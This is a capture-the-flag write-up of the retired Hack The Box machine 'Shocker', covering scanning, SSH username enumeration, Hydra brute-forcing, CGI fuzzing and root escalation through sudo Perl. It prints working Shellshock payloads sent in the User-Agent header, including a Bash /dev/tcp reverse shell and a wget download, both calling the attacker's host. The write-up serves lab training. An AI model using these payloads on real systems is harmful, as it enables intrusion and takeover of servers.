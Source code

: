 ```yaml
---
title: "Hack The Box \"Shocker\" Writeup"
date: 2023-10-01T00:12:29-04:00
draft: false
---
```


[Shocker](https://app.hackthebox.com/machines/Shocker) is a
retired easy Linux box by mrb3n. It was released on October
3rd, 2017.

## Scanning

I began by scanning the machine:
```
$ nmap -A -T4 10.10.10.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-30 21:59 EDT
Nmap scan report for 10.10.10.56
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have Apache running on port 80 and OpenSHH on port 2222.

## Enumeration

### Port 2222

I usually start with SSH because if password bruteforcing
seems to be a valid avenue, it's best to start it early.
Let's attempt to connect to the server:

```bash
$ ssh 10.10.10.56 -p 2222
```

We are asked for a password---password authentication is
enabled. Next, let's see if there are any salient
vulnerabilities for this version of OpenSSH, 7.2p2.

```
$ searchsploit openssh 7.2p2
-------------------------------------- -----------------------
 Exploit Title                        |  Path
-------------------------------------- -----------------------
OpenSSH 7.2p2 - Username Enumeration  | linux/remote/40136.py
OpenSSHd 7.2p2 - Username Enumeration | linux/remote/40113.txt
-------------------------------------- -----------------------
```

Sure enough, this version is vulnerable to username
enumeration through a side-channel timing attack when
submitting very long passwords. I downloaded the script, set
up a virtual environment, installed the dependencies, and
monkey-patched `time.clock = time.time` because the former
was deprecated. I ran it multiple times with a small list of
17 usernames---the following is one output:

```
./40136.py -U usernames.txt 10.10.10.56:2222 --samples 64 --trials 32
...
[*] Baseline mean for host 10.10.10.56 is 0.36141190990324945 seconds.
[*] Baseline variation for host 10.10.10.56 is 0.003058627316928219 seconds.
[*] Defining timing of x < 0.3705877918540341 as non-existing user.
[*] Testing your users...
[-] root - timing: 0.3622346520423889
[-] admin - timing: 0.3608233258128166
[-] test - timing: 0.36106352508068085
[-] guest - timing: 0.3625797629356384
[+] info - timing: 0.3719070628285408
[-] adm - timing: 0.36521296203136444
[-] mysql - timing: 0.3658187761902809
[-] user - timing: 0.3619757816195488
[-] administrator - timing: 0.3607597276568413
[-] oracle - timing: 0.3613279387354851
[-] ftp - timing: 0.3622165694832802
[-] pi - timing: 0.36343473941087723
[-] puppet - timing: 0.36332932114601135
[-] ansible - timing: 0.36283544450998306
[-] ec2-user - timing: 0.362905390560627
[-] vagrant - timing: 0.36412063241004944
[-] azureuser - timing: 0.3640487641096115
```

I found the results across iterations to be inconsistent and
unconvincing, though the user `info` was returned
consistently enough for me to run Hydra against the service
with a small password list of the top 1,000 most common
passwords:

```bash
hydra -l info -P 1000-passwords.txt ssh://10.10.10.56:2222 -t 4
```

### Port 80

While Hydra is running, let's check out the website:

![](/images/hack-the-box-shocker-writeup/website.jpg)

This is the only content, and there's nothing interesting in
the source. Let's try directory fuzzing with Gobuster:

```bash
gobuster dir --url http://10.10.10.56/ --wordlist dirb.txt
```

While that was running, I researched vulnerabilities in
version 2.4.18 of Apache. I didn't find anything
particularly relevant for version 2.4.18 but I did find an
interesting [privilege escalation
vulnerability](https://www.exploit-db.com/exploits/46676)
that I might've been able to use later.

Gobuster returned the following:
```
/cgi-bin/      (Status: 403) [Size: 294]
/.hta          (Status: 403) [Size: 290]
/.htaccess     (Status: 403) [Size: 295]
/.htaccess     (Status: 403) [Size: 295]
/.htpasswd     (Status: 403) [Size: 295]
/.htpasswd     (Status: 403) [Size: 295]
/index.html    (Status: 200) [Size: 137]
/server-status (Status: 403) [Size: 299]
/server-status (Status: 403) [Size: 299]
```

Let's run it again on `/cgi-bin/`:
```
$ gobuster dir --url http://10.10.10.56:/cgi-bin/ --wordlist cgibin.txt
...
/user.sh              (Status: 200) [Size: 118]
```

I made my own set of wordlists for `/cgi-bin/` enumeration
which I used for this box because I was dissatisfied with
existing lists. You can get them
[here](https://github.com/sawshep/cgi-bin/enum-wordlists).

Anyways, let's make a request to the script:

```
$ curl http://10.10.10.56:80/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 01:47:41 up 3 min,  0 users,  load average: 0.03, 0.07, 0.03
```

As is self-described, it's a script that runs `uptime`. This
server could possibly be vulnerable to
[Shellshock](https://nvd.nist.gov/vuln/detail/CVE-2014-6271),
an attack that exploits a vulnerability in how Bash
processes environment variables to remotely execute
arbitrary code. That's why I didn't see it when initially
researching vulnerabilities for the web server---it's
technically a vulnerability in Bash.

## Exploitation

Let's see if Shellshock works:
```
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo Vulnerble!'" http://10.10.10.56:80/cgi-bin/user.sh
Vulnerable!
```

Sure enough, we get a response back from the server of the
output of our command! Let's pop a reverse shell. We'll
start by listening on our host:

```bash
ncat -lvnp 4444
```

Then, we'll connect to the listener on the target through
Shellshock. I used Bash's virtual TCP files to connect as
Netcat was not present on the system:

```
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'sh -i >& /dev/tcp/10.10.14.9/4444 0>&1'" http://10.10.10.56:80/cgi-bin/user.sh
$ whoami
shelly
```

Great! We can get the user flag with `cat
/home/shelly/user.txt`.

## Privilege Escalation

Next, I transferred over the [Linux Smart Enumeration
tool](https://github.com/diego-treitos/linux-smart-enumeration)
Because I only have port 4444 opened on my firewall for Hack
The Box, I had to drop the shell, serve the script on an
HTTP server, and use Shellshock to download it:

```bash
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'wget http://10.10.14.9:4444/lse_cve.sh -O /tmp/lse.sh'" http://10.10.10.56:80/cgi-bin/user.sh
```

After marking it executable and running it, I found some
interesting information:

```
...
[!] sud010 Can we list sudo commands without a password?... yes!
...
[!] ctn210 Is the user a member of any lxc/lxd group?...... yes!
...
```

Being a member of the LXC group allows us to mount the root
filesystem in a container and read files which we do not
normally have the privilege to read. Before proceeding with
that exploit, let's check what we can run with `sudo`:

```
$ sudo -l
...
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Being able to run Perl as `root` with no password is much
easier to exploit than being a member of the LXC group.
Let's open a shell as `root`:

```bash
sudo perl -e 'exec "/bin/sh";'
```

Finally, we can read `/root/root.txt` and pwn the machine
for good.
